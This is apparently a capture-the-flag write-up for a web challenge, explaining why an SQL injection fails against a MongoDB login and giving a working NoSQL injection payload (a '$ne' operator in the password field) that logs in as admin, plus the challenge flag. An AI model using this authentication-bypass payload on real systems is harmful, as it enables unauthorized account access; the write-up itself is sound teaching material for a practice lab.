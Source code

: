 # IRS Internal CTF: Web

## Admin at work (sheepymeh) [50 Points]

**Hmm theres this [admin login website](https://cellsatwork.sheepymeh.tk/admin.html)... Hack it?**

### Solution

This is somewhat of an extension of Cells at work. It involves a more "traditional", but harder to understand injection.

```json
{
    "username": "test",
    "password": "test"
}
```

Nothing easy to find here. If we try an SQL injection like `' OR 1=1;--`, there would be no effect. To understand this, the source code must be evaluated:

```js
db.collection('users').countDocuments({
    username: req.body.username,
    password: req.body.password
})
```

An SQL injection wouldn't work, since the variables are not "injected" into a string, and the database knows that it is a variable.

However, MongoDB also has several [query operators](https://docs.mongodb.com/manual/reference/operator/query/). We can make use of the `$ne` operator, [as stated here](https://nullsweep.com/a-nosql-injection-primer-with-mongo/).

```json
{
    "username": "admin",
    "password": {"$ne": 1}
}
```

This logs us into the admin account, if the password is not equal (`$ne`) to `1`, which it isn't.

This is equivalent to an SQL injection of `SELECT * FROM users WHERE username = 'admin' AND password = '' OR username = admin AND password <> '1'` (inject `' OR username = admin AND password <> '1`).

Other MongoDB injections exist too, and more reading should be done. Leonard's ~~untested~~ excellent [MongoMap](https://github.com/Hex27/mongomap) tool can also be used.

### Flag

```
IRS{UWU_4DM1N_P15_B3_G3NTL3}
```